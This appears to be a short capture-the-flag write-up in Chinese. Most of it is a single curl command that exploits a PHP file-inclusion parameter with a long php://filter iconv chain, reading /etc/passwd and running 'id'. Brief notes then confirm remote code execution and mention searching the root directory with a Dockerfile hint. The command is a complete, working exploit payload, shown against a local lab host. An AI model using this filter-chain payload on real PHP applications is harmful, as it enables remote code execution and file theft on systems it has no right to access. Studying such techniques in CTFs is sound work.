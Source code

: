 ```
curl "127.0.0.1:8000/index.php?0=id&file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.IEC_P271.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.EUCTW|convert.iconv.L4.UTF8|convert.iconv.866.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L3.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UJIS|convert.iconv.852.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.CP1256.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.851.UTF8|convert.iconv.L7.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.CP1133.IBM932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.851.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.1046.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L7.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.MAC.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.ISO-IR-111.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.ISO6937.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.SJIS.GBK|convert.iconv.L10.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.iconv.ISO2022KR.UTF16|convert.iconv.UCS-2LE.UCS-2BE|convert.iconv.TCVN.UCS2|convert.iconv.857.SHIFTJISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=/etc/passwd"
```
先用id
![image](https://hackmd.io/_uploads/ryVEWwRta.png)
確定有成功rce
![image](https://hackmd.io/_uploads/ByNUbDCY6.png)
再來找根目錄(
dockerfile有題示
![image](https://hackmd.io/_uploads/S1WYbwCKa.png)
